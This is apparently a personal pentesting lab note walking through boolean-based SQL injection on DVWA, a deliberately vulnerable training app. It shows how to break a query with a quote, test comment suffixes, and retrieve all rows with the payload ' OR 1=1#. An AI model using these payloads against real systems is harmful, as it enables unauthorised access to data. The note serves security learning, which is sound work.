 # 02 - Craft Exploit

#sql-injection #boolean-based #dvwa

## 2.1 -   Retrieving Hidden Data

### 2.1.1 - Vulnerability Detection

#### 2.1.1.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[01 - Break Query.png]]

#### 2.1.1.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

- Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

- Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)
                                     
                                     '1''
```

- Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

- Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

- Let's imagine the vulnerable PHP code snippet from the webserver backend processes it.

```php
SELECT first_name, last_name FROM users WHERE id = '$id';
```

- We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.1.3 - Joining the Query

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

`'--`

![[02 - Join Query with Double Dashes.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

`'#`

![[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Credential Access & Dumping/Windows/03 - Query Joined via Hashtag.png]]

![[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Credential Access & Dumping/Windows/04 - Query Joined via Hashtag Valid Response.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

`'-- -`

![[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Credential Access & Dumping/Windows/05 - Query Joined via Triple Dashes with Whitespace.png]]

![[06 - Query Joined via Triple Dashes with Whitespace Valid Response.png]]

Excellent now we can move on.

### 2.1.2 - Craft Payload

This is the syntax with a place holder of SQL payload.

`'<SQL_Payload>#`

### 2.1.3 - Exploit

- Let's retrieve the hidden data.

`' OR 1=1#`

![[07 - Boolean-Based Query Payload.png]]

![[08 - Boolean-Based Response Returned Full Data.png]]

## References

- [Web Application Pentesting – Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [How to Perform Manual SQL Injection While Pentesting With Single Quote Error-Based Parenthesis Method](https://gbhackers.com/manual-sql-injection-2/)

- [How to Perform Manual SQL Injection With Double Quotes Error-Based String Method](https://gbhackers.com/perform-manual-sql-injection-2/)

- [Web Application Pentesting with Manual SQL Injection – Integer Based](https://gbhackers.com/perform-manual-sql-injection/)

- [Best approach to Error-Based SQL injection](https://medium.com/@anekantsinghai/best-approach-to-error-based-sql-injection-30c73fd8fa41)